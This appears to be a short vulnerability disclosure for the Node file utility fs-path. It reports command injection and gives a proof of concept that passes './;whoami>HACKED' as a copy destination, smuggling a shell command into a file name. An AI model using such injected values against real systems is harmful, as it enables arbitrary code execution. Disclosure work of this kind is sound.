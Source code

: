 # Description
```fs-path``` is a usefull file utility in node. This package is vulnerable to ```command injection``` which may lead to ```arbitrary code execution```.

# Proof-of-Concept
```
const fspath = require('fs-path');
fspath.copy('../file2','./;whoami>HACKED', function(err){
        console.log('ok');
});
```